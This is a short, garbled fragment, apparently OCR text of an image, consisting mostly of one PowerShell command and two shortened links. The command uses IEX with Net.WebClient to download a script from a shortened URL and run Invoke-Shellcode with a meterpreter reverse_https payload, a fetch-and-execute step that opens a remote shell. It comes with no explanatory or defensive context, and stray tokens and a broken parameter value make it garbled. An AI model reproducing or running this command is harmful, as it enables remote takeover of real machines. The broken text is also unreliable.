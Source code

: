 2
=
GGGHHHJJJ_no

FocusmazmanFocus

RunIEX (New-Object Net.WebClient).DownloadString('http://fur.ly/b357');Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lport 443 -Force -Lhost Run


http://fur.ly/b357


http://bit.ly/14bZZ0c
